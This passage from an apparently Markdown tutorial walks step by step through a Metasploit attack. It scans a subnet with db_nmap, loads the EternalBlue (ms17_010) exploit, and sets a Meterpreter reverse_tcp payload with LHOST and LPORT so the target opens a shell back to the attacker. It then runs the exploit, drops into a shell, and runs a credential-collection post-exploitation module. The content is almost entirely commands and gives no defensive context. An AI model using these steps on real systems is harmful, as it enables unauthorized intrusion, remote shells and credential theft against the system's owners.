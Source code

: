 2. **Scan for Targets**:
   - Use `db_nmap` to discover hosts:
     ```bash
     db_nmap -sV 192.168.1.0/24
     ```
   - View hosts:
     ```bash
     hosts
     ```

3. **Select an Exploit**:
   - Search for an exploit (e.g., for EternalBlue):
     ```bash
     search eternalblue
     ```
   - Use the exploit:
     ```bash
     use exploit/windows/smb/ms17_010_eternalblue
     ```

4. **Configure Exploit**:
   - Set target IP and other options:
     ```bash
     set RHOSTS 192.168.1.100
     set PAYLOAD windows/x64/meterpreter/reverse_tcp
     set LHOST 192.168.1.50
     set LPORT 4444
     ```

5. **Run the Exploit**:
   - Check compatibility:
     ```bash
     check
     ```
   - Execute:
     ```bash
     exploit
     ```

6. **Interact with Session**:
   - If successful, interact with the Meterpreter session:
     ```bash
     sessions -i 1
     meterpreter > getuid
     meterpreter > shell
     ```

7. **Post-Exploitation**:
   - Run a post-exploitation module:
     ```bash
     use post/windows/gather/credentials/credential_collector
     set SESSION 1
     run
     ```
